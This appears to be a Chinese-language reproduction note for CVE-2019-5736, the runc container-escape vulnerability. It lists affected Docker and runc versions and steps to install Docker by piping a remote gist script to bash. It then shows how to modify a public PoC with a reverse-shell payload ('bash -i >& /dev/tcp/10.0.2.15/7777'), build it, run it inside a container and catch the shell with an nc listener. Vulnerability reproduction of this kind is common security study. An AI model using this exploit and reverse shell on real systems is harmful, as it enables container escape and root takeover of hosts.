




## 一、漏洞概述

`CVE-2019-5736`漏洞是指通过从容器内覆盖并执行主机系统 runc 二进制文件，从而获取主机上的root执行权限。


## 二、影响版本

OS: Ubuntu 16.04

Docker: 18.06.0-ce ( docker version < 18.09.02 )

Docker Runc: 1.0.0-rc5 ( runc version < 1.0-rc6 )



## 三、漏洞复现

```bash
# 安装 Docker 
curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh
```

```bash
# 卸载 Docker
# Step1, 删除docker及安装时自动安装的所有包
sudo apt-get autoremove docker docker-ce docker-engine  docker.io  containerd runc

# Step2, 查看docker是否卸载干净
sudo dpkg -l | grep docker
sudo dpkg -l |grep ^rc|awk '{print $2}' |sudo xargs dpkg -P # 删除无用的相关的配置文件

# Step3, 删除没有删除的相关插件
sudo apt-get autoremove docker-ce-*
```

```bash
# 下载POC https://github.com/Frichetten/CVE-2019-5736-PoC

# 加入反弹shell的命令
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.0.2.15/7777 0>&1" + shellCmd

# 编译POC
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go

# 将POC编译好的文件Copy到容器
sudo docker cp main <容器ID>:/home
docker exec -it <容器ID> bash
cd /home/
chmod 777 main
./main
```



```bash
# 启动NC监听目标端口(7777)
nc -lnvp 7777
```







## 参考

- https://cloud.tencent.com/developer/article/1668009
- https://blog.51cto.com/u_16179749/6633750
- https://github.com/Frichetten/CVE-2019-5736-PoC
- https://www.freebuf.com/articles/web/258398.html
- https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/